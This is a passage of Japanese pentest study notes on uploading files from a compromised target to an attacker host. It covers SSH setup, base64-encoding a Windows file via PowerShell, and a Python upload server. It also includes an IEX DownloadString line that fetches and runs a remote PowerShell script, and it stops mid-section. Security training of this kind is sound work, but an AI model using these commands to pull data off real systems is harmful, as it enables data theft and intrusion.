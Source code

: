 ##### ターゲット側
SSH サーバーの有効化
```shell-session
sudo systemctl enable ssh
```

SSHサーバーの起動
```shell-session
sudo systemctl start ssh
```

SSH リスニングポートのチェック
- sudoが必要かも？？
```shell-session
netstat -lnpt
```


## ターゲット側のファイルを攻撃者の端末にアップロード
- パスワードの解読、分析、流出などの状況もあり、ターゲットマシンから攻撃ホストにファイルをアップロードする必要がある
- ダウンロード操作に使用したのと同じ方法を使用できますが、アップロードに使用できる
- さまざまな方法でファイルのアップロードをどのように達成できるかを見てみる

### Windows
#### PowerShell Base64エンコード&デコード
##### ターゲット側
Base64エンコード
```powershell-session
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
MD5ハッシュの計算
```powershell-session
 Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
##### 攻撃者側
```shell-session
echo <Base64エンコードした値> | base64 -d > hosts
```
MD5ハッシュの計算と確認
```shell-session
 md5sum hosts 
```

#### PowerShell Web アップロード
##### ターゲット側
`Invoke-RestMethod`を使用してアップロード操作を実行するPowerShellスクリプト[PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)を使用できる
- スクリプトは、ファイルパスを指定するために使用する2つのパラメーター`-File`
- ファイルをアップロードするサーバーURLである`-Uri`を受け入れる
##### 攻撃者側
攻撃者側も受け取るサーバーが必要
```shell-session
pip3 install uploadserver
```
サーバーの起動
```shell-session
python3 -m uploadserver
```
##### ターゲット側
- Python アップロード サーバーにファイルをアップロードするための PowerShell スクリプト
```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
アップロード